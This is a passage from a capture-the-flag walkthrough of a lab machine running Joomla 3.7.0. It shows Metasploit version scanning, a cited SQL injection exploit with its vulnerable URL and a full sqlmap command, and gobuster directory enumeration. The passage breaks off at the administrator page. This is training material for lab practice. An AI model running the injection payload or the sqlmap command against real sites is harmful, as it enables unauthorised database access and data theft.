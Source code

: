 Let's check if we can get anything on metasploit:
```shell-session
$ sudo msfconsole -q
msf6 > search joomla
...
10  auxiliary/scanner/http/joomla_version
...

msf6 > use 10
msf6 auxiliary(scanner/http/joomla_version) > setg RHOSTS TARGET_IP
RHOSTS => TARGET_IP
msf6 auxiliary(scanner/http/joomla_version) > run

[*] Server: Apache/2.4.6 (CentOS) PHP/5.6.40
[+] Joomla version: 3.7.0
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> What is the Joomla version?
> 
> Answer: `3.7.0`

A quick search on ExploitDB for Joomla 3.7 shows a nice exploit that we can use: https://www.exploit-db.com/exploits/42033

```txt

URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27


Using Sqlmap: 

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

Let's also do some directory enumeration while we're at it:
```shell-session
$ gobuster dir -u http://TARGET_IP/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 64 -o enum_gobuster.txt
/media                (Status: 301) [Size: 233] [--> http://TARGET_IP/media/]
/templates            (Status: 301) [Size: 237] [--> http://TARGET_IP/templates/]
/images               (Status: 301) [Size: 234] [--> http://TARGET_IP/images/]
/modules              (Status: 301) [Size: 235] [--> http://TARGET_IP/modules/]
/bin                  (Status: 301) [Size: 231] [--> http://TARGET_IP/bin/]
/plugins              (Status: 301) [Size: 235] [--> http://TARGET_IP/plugins/]
/includes             (Status: 301) [Size: 236] [--> http://TARGET_IP/includes/]
/language             (Status: 301) [Size: 236] [--> http://TARGET_IP/language/]
/components           (Status: 301) [Size: 238] [--> http://TARGET_IP/components/]
/cache                (Status: 301) [Size: 233] [--> http://TARGET_IP/cache/]
/libraries            (Status: 301) [Size: 237] [--> http://TARGET_IP/libraries/]
/tmp                  (Status: 301) [Size: 231] [--> http://TARGET_IP/tmp/]
/layouts              (Status: 301) [Size: 235] [--> http://TARGET_IP/layouts/]
/administrator        (Status: 301) [Size: 241] [--> http://TARGET_IP/administrator/]
/cli                  (Status: 301) [Size: 231] [--> http://TARGET_IP/cli/]
```
Visiting the `/administrator` path, we're taken to the following page: